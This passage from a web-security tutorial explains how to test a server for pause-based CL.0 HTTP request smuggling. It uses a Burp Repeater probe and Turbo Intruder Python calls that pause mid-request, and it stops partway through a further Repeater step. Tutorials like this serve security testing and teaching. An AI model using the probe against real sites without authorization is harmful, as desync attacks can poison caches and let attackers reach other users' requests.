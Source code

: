 To test it, we can use the [Turbo Intruder](https://portswigger.net/bappstore/9abaa233088242e8be252cd4ff534988) extension as it lets you pause mid-request then resume regardless of whether you've received a response.

- In Burp Repeater, create a CL.0 request smuggling probe like we used in the example above, then send it to Turbo Intruder:

```http
POST /example HTTP/1.1
Host: vulnerable-website.com
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 34

GET /hopefully404 HTTP/1.1
Foo: x
```

- In Turbo Intruder's Python editor panel, adjust the request engine configuration to set the following options:

```py
concurrentConnections=1
requestsPerConnection=100
pipeline=False
```

- Queue the request, adding the following arguments to the `queue()` interface:

- `pauseMarker` - A list of strings after which you want Turbo Intruder to pause.
- `pauseTime` - The duration of the pause in milliseconds.

For example, to pause after the headers for 60 seconds, queue the request as follows:

```py
engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=60000)
```

- Queue an arbitrary follow-up request as normal:

```py
followUp = 'GET / HTTP/1.1\r\nHost: vulnerable-website.com\r\n\r\n'
engine.queue(followUp)
```

- Ensure that you're logging all responses to the results table:

```py
def handleResponse(req, interesting):
    table.add(req)
```

When you first start the attack, you won't see any results in the table. However, after the specified pause duration, you should see two results. If the response to the second request matches what you expected from the smuggled prefix (in this case a 404), this strongly suggests that the desync was successful.

**Now, we can go to Burp Suite Repeater, and try sending a request for a valid directory without including a trailing slash:**
